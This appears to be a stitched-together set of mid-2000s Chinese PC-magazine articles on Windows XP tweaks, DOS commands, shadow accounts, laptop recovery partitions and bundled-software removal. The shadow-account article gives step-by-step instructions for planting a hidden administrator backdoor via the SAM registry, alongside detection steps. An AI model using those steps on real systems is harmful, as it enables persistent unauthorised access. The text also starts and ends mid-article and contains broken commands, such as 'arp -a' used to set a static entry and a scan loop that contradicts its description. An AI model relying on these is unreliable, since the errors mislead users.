- (1)版权信息 试验结果:成功
变种版的Windows XP Pro的版权信息稍显混乱，我们在使用Windows XP漫游时，显示为Windows XP Home，而其他不管是资源管理器中的“关于”窗口，还是按下“Win + Break”键打开“系统属性”，均显示为Windows XP Pro。看来改造是初步成功的。

- (2)远程桌面 试验结果:成功
远程桌面功能已经在该版本中完全能够实现一在“开始→程序→附件→通讯”菜单中出现了“Windows远程桌面”，而“系统属性”中切换到“远程”标签，也出现了“远程桌面”的设置选项(见图1)。远程桌面功能是Windows中一个重要的管理组件，现在Home版的用户也能享受到它的便利，关于其使用将在近期介绍。



- (3)加密文件系统 试验结果:失败
这个Windows XP Pro的重要功能没能改装成功，看来Windows XP Pro在安全上始终还是要胜过Windows XP Home。

- (4)用户和组管理 试验结果:成功
选择“控制面板→管理工具→计算机管理”，在这里我们看到了久违的“本地用户和组”(见图2)，这在Windows XP Home版本中是不存在的，有了该功能我们可以轻松地管理系统中的组和用户了。这样变种版的Windows XP Pro在“计算机管理”组件功能上与真正的Windows XP Pro一样了。



- (5)组策略管理 试验结果:失败
运行gpedit.msc命令试图打开组策略编辑器的时候，系统提示“Windows找不到文件'gpedit.msc'...”。尽管如此，有些“组策略编辑器”能够实现的修改同样也可以使用“注册表编辑器”来实现(如“登录时不显示欢迎屏幕”等，都可以在Google中搜索到其他修改方法)。

- (6)多语言用户界面(MUI) 试验结果:成功
由于安装采用的是中文版本的Windows XP Home，所以该功能实际作用不大。在英文版的Windows XP Home中测试，该功能正常启动。

- (7)安装某些软件的权限 试验结果:成功
其实Windows XP Pro更像是Windows XP Home与Windows Server之间的一个版本，所以微软为它提供了安装一些服务器软件的权限，而Windows XP Home则完全不能安装IIS等服务器软件。变种版的Windows XP Pro可以安装一些以往不能安装的服务器类软件。

（张宗闯）

（北京 山村野菇）

```
lsLen = Len (lStr)'获取字符串长度
fsPos = InStr (1, lStr, " ")'获取第一个空格符位置
ssPos = InStr (fsPos + 1, lStr, " ")'获取第二个空格符位置
lAddr = Left (lStr, fsPos - 1) '获取E-mail地址字符串
cfName = Mid (lStr, fsPos, ssPos - fsPos) '获取压缩文件名字符串
ssFiles = Right (lStr, lsLen - ssPos + 1) '获取发送文件列表字符串
WshShell.run (myProg & lAddr & cfName & ssFiles) 'WScript外壳run命令调用“WinRAR A ieml.<地址> <压缩文件名> <指定文件集>”命令
WScript.Sleep (10000) '发送邮件延时10秒，否则可能出错
End If'判断结束
Next '循环到下一行
myFile.Close '关闭列表文件
```

故障解决:在使用脚本发送邮件时出现了OE的安全提示
①点击弹出对话框中的“发送”按钮。
②打开Outlook Express，选择菜单“工具→选项”，在“安全”选项卡中去除“当别的应用程序试图用我的名义发送电子邮件时警告我”的勾选，点击“确定”保存设置并关闭选项窗口。
上文中的脚本调用了MAPI接口来实现邮件发送，另外笔者还实现了直接调用Outlook、Outlook Express发送邮件的脚本供大家学习参考，可在http://www.newhua.com/cfan/200512/tzok.rar下载(其中有脚本说明)。

# DOS 快餐厅（八）：名侦探破案实录

“真相只有一个！” 掌柜的刚出差回来，还没进门就听见店里传来小计的声音。掌柜的头上顿时凸显出几根青筋，嘴里嘟囔着：“不用问，这小子又在看《名侦探柯南》……” 进门后就对着正在看的小伙计怒道：“真相是你要被开除了！” 接下来的几分钟里，掌柜的看着小伙计痛哭流涕状似乎大有痛改前非之势，就接着说：“既然你这么喜欢侦探，那我就给你讲讲DOS小镇里的名侦探‘find’的故事吧。”

**find 人物资料**
身份：DOS小镇著名侦探
就职经历：Windows 9x/2000/XP/2003
地址：%systemroot%\system32
格言：给我一点线索，我就能找出你想要的（笔者按：这不是狗吗-_-）……
探案工具：卫星定位系统（tree命令）

## 案件侦破纪实：谁携带了病毒

今天DOS小镇机场安检处显得特别严肃，因为他们收到可靠线报：在即将通过安检的几名乘客中有一人携带了恐怖的木马病毒！安检处长如临大敌，急召find侦探协助破案。仅有的是一些线索（捆绑了木马的EXE文件中能找到好几处“This program”标记）能帮助find找出犯人吗？

```
find /c "This program" d:\download\可疑程序.exe
```

用这条命令检查了第一项后，DOS窗口显示“--------- d:\download\可疑程序.exe 3”（见图1），这就说明在这个EXE文件中发现了3处“This program”标记。第一处是捆绑头部；第二处是EXE文件头，第三处……则很有可能是木马文件了，犯人被成功找到。

案件总结：用“find /c "This program" 要检测的程序（如不在当前目录则需给出完整路径）”可以检测出大部分被捆绑了木马的EXE文件，但这种方法并不能保证100%准确，任何包含1个以上“This program”字符串的文件（甚至可能是文本文件）都有可能被误报。更保险的方式是使用如“木马捆绑克星”（下载地址：http://www.uuland.com/software/mview21.rar）等工具，它采用了最精确的文件头偏移量判断。

## 名侦探访谈：如何根据已有线索找出文件

1.  基本探案：确定当前目录下的list.txt文件中是否包含字符串“software”

    ```
    find "software" list.txt
    ```

    命令格式：`find "要搜索的字符串" 要搜索的文件`（不在当前目录则需给出完整路径，下同）
    命令讲解：这是find侦探最基本的探案手段，也就是不加任何附加参数时的命令格式。运行这行命令后会返回要搜索的文件中包含指定要搜索的字符串的行，如刚才检测木马捆绑时的命令如果不加/c参数，就会返回信息。用这种方式有一个缺点，那就是当文件中包含指定字符串数较多时很难统计到底搜到了多少行，侦探是如何确定疑犯人数的呢？

2.  确定疑犯人数：确定当前目录下的list.txt文件中包含了几个“software”字符串

    ```
    find /c "software" list.txt
    ```

    命令格式：`find /c "要搜索的字符串" 要搜索的文件`
    命令讲解：加了参数/c之后，find命令在反馈信息时不再显示包含指定字符串的行，而是直接在要搜索的文件名的右侧显示指定字符串在该文件中出现的次数（可参考上文的图1）。参数/c也是英语单词“Count”（计数）的缩写。现在我们已经可以很方便地得到指定字符串在文件中出现的次数，但具体出现在文件的什么位置呢？

3.  找出疑犯所在：找出当前目录下的list.txt中“software”字符串出现的行号

    ```
    find /n "software" list.txt
    ```

    命令格式：`find /n "要搜索的字符串" 要搜索的文件`
    命令讲解：参数/n代表英语单词“Number”（号码），使用此参数后，程序反馈的信息与“基本探案”中的信息基本相同，但在显示搜索到的行之前显示了该行的行号。如果文件中包含的是“Software”而指定的搜索字符串是“software”，那find可能就无法找到该行，为了解决这个问题必须使用另一个附加参数。

## 名侦探工具大曝光：目录地图 tree

名侦探要在硬盘中的文件目录中穿梭自如，当然有他的侦探工具，下面就为大家曝光一件非常强大的目录地图工具：tree。

1.  看看当地形：显示当前目录下的结构图

    命令格式：`tree`
    命令讲解：不加任何参数而直接执行tree命令，就会显示出当前目录下所有子目录的结构图（见图2）。如果每次都需要先用cd命令调整当前目录，然后才能使用tree命令，那就太麻烦了！

2.  看看别处地形：显示D:\test目录下的结构图

    ```
    tree d:\test
    ```

    命令格式：`tree [盘符:][目录]`
    命令讲解：如果要显示当前目录之外的目录的结构图，就需要在tree命令后加路径参数了。可是tree命令默认只在结构图中列出目录名，如果要让结构图包含文件名应该怎么做呢？

3.  更加精确：显示D:\test目录下的结构图，包含文件名

    ```
    tree d:\test /f
    ```

    命令格式：`tree [盘符:][目录] /f`
    命令讲解：参数/f我不说大家也知道是“File”（文件）的缩写，如果目录结构过于复杂（包含的子目录及文件数较多），可能会导致此命令长时间刷屏显示，可以使用“Ctrl + C”组合键中止该命令。

find 命令的参数小提示：find 命令和 copy、del 命令一样，也支持通配符（* 和 ?）。

## 侦探怎么用工具：find/tree命令应用实例

1.  做个光盘文件目录表（假设光盘所在盘符为G：，生成的目录表为C:\list.txt）

    ```
    tree g:\ /f > c:\list.txt
    ```

2.  统计D:\test目录下名为sample.txt的文件个数

    ```
    tree d:\test /f | find /c /i "sample.txt"
    ```

# 给账户起个“小名”——影子账户全面解析

**特别注意：**
★本文仅针对 Windows 2000/XP/2003，Windows 9x 不在本文讨论范畴。
★本文涉及注册表重要位置的修改，在实际操作前应做好备份。

## 评评管理员账户的安全性

Windows 2000/XP/2003 中都能找到一个系统内置的默认管理员账户——Administrator，该账户具有 Windows 的最高管理权限，用来完成软件安装、系统设置等任务。如果系统由于存在漏洞而被黑客入侵，黑客为了下次还能方便地进来，通常会留一个管理员账户的影子账户(关于影子账户的概念将在下文中介绍)。

### 1. 为什么黑客选择 Administrator 账户作为突破口

如果黑客希望远程登录系统的话，就必须拥有具有远程登录权限的账户，而管理员账户自然是具备了远程登录的权限。另外，由于 Administrator 是系统中默认建立的管理员账户，而且一般无法删除，所以黑客都会选择 Administrator 作为用户名猜解登录密码。虽然使用“组策略”可以修改 Administrator 的用户名，可是一旦黑客给 Administrator 起了个“小名”(影子账户)，再怎么改用户名也没用了。

### 2. Windows XP 的安全策略

Windows XP 在安装过程中会提示建立一个管理员账户，但实际上默认的 Administrator 账户仍是存在的，并且密码为空。笔者的 Windows XP SP2 没有修改此空密码，但黑客却无从下手，原因何在？原来在安全策略中有一条禁止了空密码账户的远程登录，黑客即使知道密码为空仍无法登录。

#### 小知识
什么是Windows内置账户

内置账户是微软在开发 Windows 时预先为用户设置的能够登录系统的账户。使用最多的有 Administrator 和 Guest，它们两个默认都无法从系统中删除，即使从未使用这两个账户登录系统！如果在安装系统后使用其他账户登录系统，这样在“Documents and Settings”目录中就不会产生它们两个所对应的配置文件目录，但这两个账户仍是存在的。用此账户登录一次后，系统就会生成相应的目录。

## 谈谈管理员账户的安全防范

既然已经列举了这么多不安全因素，那么必须给出解决之道。

### 1. 为 Administrator 账户设置强壮的密码

强密码通常在 8 位以上，以大小写字母、数字、特殊符号混合排列而成。不应使用名字缩写及自己、家人的生日作为密码元素。不宜将常用单词用作为密码元素，即使要使用，也要使用特殊符号或数字使其略为变形，如将“apple”改为“@pp1e”等。

### 2. 更改 Administrator 为其他用户名

Administrator 是系统内建账户，默认情况下无法更改，可是强大的组策略又为我们提供了一次安全机会。运行“gpedit.msc”打开“组策略编辑器”，点击展开左侧窗格的“本地计算机”策略→Windows 设置→安全设置→本地策略→安全选项，然后在右侧窗格的一大堆列表中找到“重命名系统管理员账户”，双击它后就能设置新的账户名了。

## 看看账户是如何变成影子的

刚才曾经提到黑客在入侵系统后常常会建立一个影子账户。之所以称其为“影子账户”，是因为这种账户用系统中提供的工具或方法都无法看到，并且无论是“用户账户”、“计算机管理”，还是命令行中，都无法删除此账户。无法删除？也就是说即使知道已经有人建立了后门，都无法将他赶出去。如果你已经“中招”了，先别忙着重装系统，且看下文分解。

### 常用的账户建立 / 查看方法

1.  用户账户：打开“控制面板→用户账户”，在打开的“用户账户”管理窗口中点击“创建一个新账户”，然后根据提示即可完成一个新用户的建立。在这里还可以查看曾经登录过系统的账户，但没有在“Documents and Settings”目录中生成用户数据的账户是不会显示的（如没有登录过系统的 Administrator 账户），在这里检查系统中存在的账户是不准确的，对于稍微有点经验的入侵者而言，把残留在这里的痕迹抹去并非难事。
2.  控制台：系统控制台是 Windows 2000 及其后续版本中一个非常重要的系统组件，集中安置了系统中的多个系统配置维护工具。依次打开“控制面板→计算机管理”打开“计算机管理”控制台，在窗口左侧定位到“本地用户和组→用户”，在窗口右侧就罗列了当前系统已经建立的账户，一些在“用户账户”中没有显示的账户都可以在这里查到。在窗口右侧空白处点右键选择“新用户”，然后输入账户信息就可以建立一个新用户了。
3.  命令行：以上两种都是图形界面中的操作方法，现在我们回归到命令行模式。要查看当前系统中的账户，运行 CMD 打开“命令提示符”窗口，输入“net user”命令后系统就会返回系统中存在的账户。键入“net user cfan 123 /add”命令可以新建一个用户名为“cfan”，密码为“123”的受限账户(即 Users 组成员)。如果要将 cfan 账户提升为管理员，就需要将此账户加入 Administrators 用户组，运行命令“net localgroup Administrators cfan /add”即可，如果要删除则用“net user cfan /del”，要查看某个账户的详细情况则可以执行“net user 用户名”。
4.  账户配置文件目录：在系统盘符下的“Documents and Settings”目录中，凡是登录过系统的账户都会在此生成一个与账户名同名的目录。
5.  查看“用户配置文件”：打开“我的电脑”属性，切换到“高级”，单击“用户配置文件”对应的“设置”按钮，在弹出的“用户配置文件”窗口中显示了登录过系统的账户。在此具备管理员权限的用户可以删除账户及其配置文件(包括有密码保护的账户)。
6.  巧用权限设置：在 NTFS 格式的分区中，如果已经取消了“文件夹选项→查看→使用简单文件共存”的勾选，那么右击一个文件或者目录选择“属性”后就能看到“安全”选项卡，在这个选项卡中简单罗列了对此文件/目录具备权限的用户或组(见图1)，而依次单击“添加→高级→立即查找”后，系统就会显示整个系统中的“用户、组或内置安全性原则”，可以非常方便地找出系统中的可疑账户。

### 1. 歪门邪道：从注册表剖析账户信息

注册表是 Windows 核心部分，相当于系统设置的总数据库，几乎所有与系统设置相关的选项都能在其中找到对应的键值。本刊2005年第2期的《把根留住——备份 Windows 密码》中提供了移植 Windows 2000/XP/2003 账户密码的方法，其实[HKEY_LOCAL_MACHINE\SAM\SAM]还大有潜力可挖。
第一步：由于涉及注册表的权限修改，所以必须使用具有管理员权限的账户登录系统。
第二步：打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SAM\SAM]，右击该项选择“权限(Windows 2000 中要使用 regedt32.exe 修改权限)”，选中“组或用户名”列表中的“Administrators”，勾选“完全控制”后点击“确定”。
第三步：按 F5 刷新一下注册表就会发现可以打开该项的下级分支了，找到[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]，其下的子项就是系统中的账户名，这是最保险的查看方式。

### 2. 恐怖的实验：账户移形换位

第一步：建立2个账户 cfan1 和 cfan2，分别设置密码并登录一次系统，这样做是为了在“Documents and Settings”目录中生成各自的配置文件和在注册表产生各自的 SID 值(SID 值是 Windows 中设计用来区分不同账户而采用的一个随机码，即使是在同一系统中先后用相同的账户名建立一个新账户，它们的 SID 值也是不一样的)。
第二步：用系统管理员账户登录系统，打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]，将账户 cfan1 和 cfan2 的键名互换，接着注销系统并分别使用 cfan1 和 cfan2 登录系统，原密码已经失效了，不过将它们的密码互换后却可以正常登录。
第三步：用 cfan1 登录后发现当前使用的用户配置文件是 cfan2 的，除了用户名换成 cfan1 外，其它的数据(密码、用户设置等)都是 cfan2 的。而用 cfan2 登录则恰好相反，除了用户名外也都是 cfan1 的。

### 结论

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]下的各个子项相当于一把能够开启用户配置文件“保管箱”的“钥匙”，而[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users]下的其他各子项(除了 Names 项)才是真正记录了用户数据的位置，而复制影子账户就相当于给同一个用户数据“保管箱”配了2把“钥匙”，用其中任意一把都能打开“保管箱”。

#### 小提示

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]各子项的默认值是一个指针，并不包含用户的数据，其值与[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users]下的某个子项名相同，也就是说指向了这个保存了用户数据位置的子项，如[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator]的默认值为“0x1f4”(即十六进制的000001f4)，则 Administrator 的用户数据在[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001f4](见图2)。

## 3.当回杀手:亲手建立影子账户

第一步:用管理员账户登录系统,打开“注册表编辑器”,选中[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator]项并右击,选择“导出”,保存为ad.reg。

第二步:用“记事本”打开ad.reg,将其中的“[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator]”修改为“[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\cfan]”,保存后双击导入注册表。

第三步:注销当前登录用户,以“cfan”为用户名,密码则使用Administrator的密码,登录系统。

如果你是黑客,那么现在不管对方将用户名“Administrator”改为“user123”还是“user321”,你都能用“cfan”作为用户名进行登录。更为可怕的是,通过上文中介绍的6种常规账户检测方法均无法找出这个影子账户!但庆幸的是,还是有办法找出这个“隐形杀手”的。

> 小提示
用影子账户登录后所进行的用户设置及修改,相当于原账户所进行的修改(比如用影子账户修改了登录密码,则用原账户登录时也需使用新密码),反之亦然。

## 4.神探出手:轻松找出影子账户

以彼之道还施彼身乃是上策,既然黑客能利用注册表建立影子账户,那么通过注册表我也能找出影子账户。

第一步:打开“注册表编辑器”,然后点击左侧分支找到[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator],查看并记录下该项的默认值。

第二步:依次检查[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]下的所有子项,如果某个子项的默认值与刚才记录下的Administrator的默认值相同,那么这个就是影子账户了,当然不能给黑客留一把后门“钥匙”,毫不犹豫地删除之。

第三步:除Administrator外,黑客还可能复制出其他账户的用户数据“保管箱”的“钥匙”,所以保险起见还需检查[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]下所有子项的默认值是否有相同的,如果有,那么就该小心了。

## 找回被破坏的隐藏分区

硬盘出现逻辑错误时通常会选择系统自带的Scandisk或者Chkdsk进行检查,如果不能解决则必须重新格式化,但如果格式化后仍不能解决问题,就只有重新分区了。普通硬盘重新分区当然没有什么问题,但如果是笔记本的硬盘呢?

## 笔记本为什么不能调整分区

现在很多笔记本都提供了便捷的操作系统恢复功能,能帮助用户在系统发生不测时迅速恢复。IBM笔记本电脑的HPA技术正是这项技术的一个经典范例,但你是否知道,此功能占用了笔记本硬盘中的一块隐藏分区,并且一旦使用PQ Magic等分区工具对硬盘分区进行调整后,会破坏指向硬盘隐藏分区的链接,IBM系统还原功能“消失”了,开机时按“Access IBM”键原先可以进入IBM还原菜单,但现在却出现了“Missing operate system”的错误提示。

## 隐藏分区破坏属于软故障

与IBM的客服中心“蓝色快车”联系后,得知此故障属软件故障范畴,不在保修之列。由维修部门重新制作隐藏分区则需要花费大约200元。没办法,谁让自己当初闲着没事分区呢?不过,还是不甘心就这样花“银子”,决定自己DIY试试。

经过Google多方查找,终于找到了两个解决方法,我的IBM笔记本终于有望摆脱残疾了。

### 1.初试IBM修复工具

在IBM官方网站下载并安装IBM Rescue and Recovery v2.04.0182(下载地址:http://www-307.ibm.com/pc/support/site.wss/document.do?lndocid=MIGR-57264),运行后可以查找到隐藏分区的位置,并自动关联到“Access IBM”,修复工作完成后重启,如果只是分区链接被破坏,现在就能修复了。

### 2.刻一张IBM系统恢复引导盘

进入Windows后,点击菜单“开始→程序→Access IBM”,其下有一子菜单项叫“创建抢救介质”。所谓“抢救介质”就是一张引导盘,可以帮助失去恢复引导功能的机器引导至还原菜单。点击此菜单项后,按提示选择“CD”或“USB硬盘”,推荐使用CD选项(机器上必须已安装刻录机光驱),把刻录盘放入刻录机后点击“确定”开始刻录。刻录完成后,点击“确定”。将刻好的光盘留在光驱内(必须是可引导的光驱盘符)后重新启动,按F12键,选择光驱引导并回车,久违的IBM恢复系统又出现了。

### 3.终极必杀的光盘

如果非常不幸,不但指向隐藏分区的启动链接给破坏了,而且连隐藏分区也没有放过。刚才两种方法就无能为力了,必须创建一套“Product Recovery”光盘,这套光盘用来擦除硬盘中的内容并重新创建笔记本硬盘出厂时的内容。需要的盘数依不同型号而定,以CD盘为例,T42需要4张,而R51则需要7张。

选择“开始→程序→Access IBM→创建恢复磁盘”,然后根据提示进行刻录即可。由于版权保护的关系,这套光盘只允许刻录一次,所以建议大家使用质量比较好的刻录盘,并妥善保存。

## DOS 快餐店(九):快餐馆的“魔鬼命令测试”(上)

小伙计由于表现优异,掌柜的授予了他“店小二”称号,并美其名曰“店中排行老二,仅次于掌柜的”(小伙计:“不一共才2个人吗,难道又想用荣誉称号来抵扣薪水……”)。于是店小二开始了业余网管的学习,掌柜的也承诺:学习完成后,如果能够通过“魔鬼命令测试”就替他加薪。

经过几个月疯狂学习,小伙计已经达到了一个业余网管的水平,向着“魔鬼命令测试”进发了。他哪里知道,这其实是掌柜的精心设计的魔鬼测试题,专用来对付员工的加薪要求。

考试要求:本测试共有4题,解题时只能使用Windows XP SP2自带的命令。

### 1.确定局域网内IP为192.168.0.3的操作系统类型

解题提示:操作系统为默认设置,未进行特殊修改
(A)Windows 98 (B)Windows 2000/XP (C)Unix

店小二解题分析:要获知局域网内某台电脑所安装的操作系统类型,最好的方法就是使用扫描器软件,如X-Scan等。但这张魔鬼测试题要求只能使用DOS自带的命令解决问题,首先来分析一下确定远程操作系统的几种方法。

- ①用telnet登录并分析返回信息:使用telnet命令登录远程计算机后,很多时候都会返回一串文字显示当前系统的状态。比如下面这段:

C:\>telnet XXX.XXX.XXX.XXX
Red Hat Linux release 7.1
Kernel 2.4.2-2 on an i686
login:

可是局域网中的这台计算机并不是服务器,所以没有开放telnet服务,没法使用telnet命令连接上它,获得返回信息更是无从谈起。

- ②用DF位/ACK序号等方法进行识别:操作系统在对外发送数据包,或者对一个远程连接作出回应时,都会在发送的数据中包含一些特有的信息,就好比每个人的指纹一样。但现在没有相关的扫描工具,所以此方法显然不行。

- ③使用ping命令获取TTL值:ping是Windows中一个非常实用的命令工具,网管员经常使用此命令来检查网络连通情况。但很少有人知道,ping还有另一个用处,就是检测远程操作系统类型。使用“ping 192.168.0.3”后,返回信息中带有“TTL=XX”,其中“XX”是TTL的值,为数字(见图1)。通过这个TTL值的比较,就可以确定操作系统类型。以下是不同操作系统返回的TTL值的对照表(见附表)。

附表

| 操作系统类型   | TTL  |
|----------------|------|
| Windows 98     | 32   |
| Linux 2.2.x/2.4.x | 64   |
| Windows NT/2000/XP | 128  |
| Unix/BSD       | 255  |





> 小提示
以上TTL值均为近似值,因为在数据包传输过程中,每经过一个路由,TTL值就会自动减1,可以通过tracert命令获得与远程主机间存在的路由个数,来确定精确的TTL值。

店小二测试了一下,发现返回值为128,于是选择了“(B)”。

你知道吗?

TTL值判断操作系统类型的准确性
TTL判断操作系统类型并非最可靠的,因为一个熟练的网管肯定会将系统默认的TTL返回值修改掉以避免被别有用心的入侵者猜测系统类型,Windows系统中只需修改注册表中[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]分支下的“DefaultTTL”即可修改默认的TTL返回值(见图2)。第一题中注明了使用默认设置,并且在局域网环境中,所以用TTL还是比较准确的。

### 2.如果小明的局域网IP地址192.168.0.84被占用了，他应该如何找出谁占用了他的IP？

解题提示：局域网中的用户皆使用自己名字的拼音作为机器名。

店小二解题分析：这一次是简答题，就不像刚才客观题那么简单了(掌柜的窃笑中)。店小二想了想，要找出究竟是谁占用了IP，也就是要知道占用IP的人的名字。此题的提示中说使用名字作为机器名，那么也就是说只要找出现在使用192.168.0.84这个IP的机器名。这可难不倒我，店小二想。接着，他在‘命令提示符’中输入了一行命令‘nbtstat -A 192.168.0.84’(注意:命令参数中的‘-A’必须使用大写)，在返回信息中顺利找到了占用IP的用户为‘zhangguide’(掌柜的！?)。

小提示 使用nbtstat命令同时获得的还有使用此IP的机器网卡的MAC地址。

### 3.找出当前机器上与207.68.178.16连接的程序名。

解题提示：这道题你肯定不会。

店小二解题分析：‘这也算‘解题提示’！？’店小二愤怒地骂了一句，很快又把情绪转移回了题目中。以往要检测系统中开放的端口都会使用‘netstat -a’命令，但实际上，如果改换参数，netstat还有其他妙用。首先用‘netstat -o’命令显示每个连接所属的程序PID情况，找出‘Foreign Address’列中地址为‘207.68.178.16’的行，并查看该行的PID为236。光有PID还不行，还必须知道PID所属的程序名才行，于是输入‘tasklist’命令获得了当前系统中运行的进程列表，对照刚才找出的PID寻找PID为236的进程，最后确定此进程为msnmsgr.exe，原来是MSN Messenger！

你知道吗 PID是什么 PID的全称是‘Process ID’，即‘进程ID’，也就是程序进程的惟一身份编号。这个编号是由系统在程序运行之初就随机赋予的，在一台机器上同时运行的程序的PID都不一样。有很多进程相关的命令需要PID参数。

### 4.获得局域网中所有机器的共享列表，并写入文本文件中。

解题提示：需要获得的机器的IP段在192.168.0.1～192.168.0.255。

店小二解题分析：现在手头也没有扫描工具，如果手工一个个检查那得弄到猴年马月啊！早料到掌柜的会出这种难题，还好事先恶补了几星期批处理。

```
@echo off
@echo Searching share in LAN now...
@for /L %%i IN (195,1,255) do @echo 192.168.0.%%i && @echo 192.168.0.%%i >> share.txt && net view 192.168.0.%%i >> share.txt || @echo 该主机无响应 >> share.txt
@echo Finished
@pause
exit
```

原来用‘new view IP地址’可以探测远程机器上开放的共享，这个脚本实现的功能就是在192.168.0.1～192.168.0.255中自动扫描共享，并将结果记录到share.txt中(此脚本下载地址:http://www.newhua.com/cfan/200513/scanshare.zip)。

店小二高高兴兴地将做好的测试题交给掌柜的，却未料到，掌柜的铁青的脸突然强挤出了一丝笑容：‘嗯，你上半场的题答得不错，竟然得了满分……希望你下半场的考试也能这么顺利。’店小二能否顺利通过‘魔鬼命令测试’，又能否加薪成功呢？且听下回分解。(掌柜的)

## DOS 快餐店(十)：快餐厅的“魔鬼命令测试”(下)

自从在上次魔鬼测试中被掌柜的‘耍’了一把，店小二就一直嚷嚷着要‘讨回公道’。掌柜的安排的下半场测试究竟难度如何呢？

考试要求：本测试共有3题，解题时只能使用Windows XP SP2自带的命令。

### 1.在本刊第11期《批处理也玩黑吃黑》中介绍了IPC木马的植入过程，期间使用了net use命令连接到了远程计算机的共享硬盘上，那么如何使用命令检测当前是否有用户连接到了我的计算机上呢？

解题提示：net命令包罗万象

店小二解题分析：对于当前已经从网络上登录本地计算机的用户，可以通过‘任务管理器’的‘用户’选项卡来找到。但现在规定必须使用命令行方式，解题提示中写道‘net命令包罗万象’，难道……

店小二在疑惑中打开了‘命令提示符’，输入‘net /?’回车，在返回的命令帮助中找到了一条有趣的命令‘net session’，运行后果然显示了当前连接到计算机的用户列表，其中竟有掌柜的机器‘zhangguide’。

掌柜的开始捶胸顿足了，心想实在不应该给他解题提示，便向店小二吼道：‘试题追加！你知道怎么断开已经连接的用户吗？’店小二已经从以前各期的《DOS快餐店》介绍的命令中找到了参数的规律，随手输入了一行‘net session \zhangguide /delete’，就把掌柜的机器给断开了。

### 2.系统中启动了若干危险的服务，尝试关闭它们。

解题提示：现在放弃虽然不能加薪，但仍可以获得‘勇敢者’的荣誉称号。

店小二解题分析：店小二对掌柜的给出的解题提示嗤之以鼻，这可难不倒我！在‘命令提示符’下输入‘net start’回车后，列出了当前系统中已经启动的服务，仔细地分析之后，基本列出了以下几个‘嫌疑犯’。

> ①服务名:Messenger 这个服务原先是用来发送信息的，可是后来被人用到广告及垃圾信息群发中。如果不停止这个服务，很有可能每天弹出一大堆垃圾信息窗口。

> ②服务名:RemoteRegistry 如果网络中有人获得了本机的远程管理权限后，就能轻松地通过这个服务来对本机的注册表进行修改，相当危险。

> ③服务名:TermService 终端服务，听名字好像并不那么危险，其实这个就是提供‘远程桌面’功能的系统服务，如果有人猜解到了本地的管理员账户或者具有‘远程桌面’连接权限的账户，就能通过此服务登录本地计算机！

接着，店小二依次用‘net stop 服务名’停止了这三个服务，又顺利完成一题。

### 3.局域网中的网关IP为192.168.0.1，局域网中的计算机A无法顺利上网，使用ping命令发现无法与网关建立连接，但与局域网中的其他计算机却能正常ping通，这是为什么？如何解决？(此题为实验题)

解题提示：网关网卡(局域网)的MAC地址为‘00-06-29-EE-01-CF’。

店小二解题分析：店小二郑重地走到实验机前，凭借这几个月的学习经验，他尝试着在‘命令提示符’下运行了‘arp -a’命令，结果在返回的列表中发现了异常。网关192.168.0.1所对应的MAC地址竟然显示为‘00-00-00-00-00-00’，这是典型的ARP缓存表错误导致的故障。ARP缓存表记录了局域网中IP与MAC地址的对应关系，由于网关IP对应的MAC地址出错，所以就出现了无法连接网关的故障。解决的方法是使用arp命令手动添加网关IP与MAC地址的对应关系。

```
arp -a 192.168.0.1 00-06-29-EE-01-CF
```

命令的格式为‘arp -a IP地址 MAC地址’，遇到此故障时可以修改为相应的命令参数。运行这条命令后，再次ping网关的IP，成功接通。(掌柜的)

## 去除共享软件的“寄生虫”

如果你经常检查‘添加/删除程序’中已安装的项目，有时会发现一些从来不曾安装过的软件，如‘3721’、‘划词搜索’等。这些软件是如何进入我们的系统的呢?其实有许多号称免费的共享软件(如‘珊瑚虫QQ’)在其安装程序中都捆绑了一些大公司用以推广的小程序(如‘上网助手’等)，我们应该怎么去除共享软件的‘寄生虫’呢?

去除共享软件捆绑的3大理由

- ①有些共享软件在安装捆绑的软件时根本没有提示，剥夺了使用者的知情权。
- ②由于安装包的升级功能制作的不完善，有时其捆绑的软件会覆盖并破坏系统中原来已经安装的此软件。
- ③非常讨厌捆绑安装的软件，感觉像木马和间谍软件。

去除共享软件捆绑的原理 共享软件的安装包一旦运行，软件包程序就会在当前系统的临时目录下生成一个安装包临时文件夹，将原程序文件和需要集成安装的捆绑软件区分开来，我们只需找到安装包临时文件夹中的原程序文件并运行即可。

实战：去除‘千千静听’捆绑的搜索软件 注意：修改过程中请勿关闭‘第一步’中的安装向导界面。

> 第一步:下载‘千千静听’(下载地址:http://www.onlinedown.net/soft/8350.htm)，完成后运行。

> 第二步:运行后显示出了安装向导界面，此时安装文件已经解压到临时目录了，打开C:\Documents and Settings\用户名\Local Setting\Temp目录(假设系统为Windows XP版本，‘用户名’请改为自己的登录用户名)，在其下寻找名为sfx**.tmp的目录(** 为随机字符)。

> 小提示 解压的临时文件目录必须在‘文件夹选项’中选择‘显示所有文件和文件夹’才能看到。

> 第三步:进入找到的sfx**.tmp目录(见图)，打开其中的files目录，该目录中的msetup.exe即为捆绑上的‘寄生虫’，删除之。而剩下的ttplayer.exe(Unicode版本，适用于Windows 2000/XP/2003)和ttplayer_a.exe(Ansi版本，适用于Windows 9x/Me)文件即为‘千千静听’的主程序了。将files目录下的文件全部复制到硬盘的任意位置，直接执行主程序即可。


(丝竹)## 禁地的战术

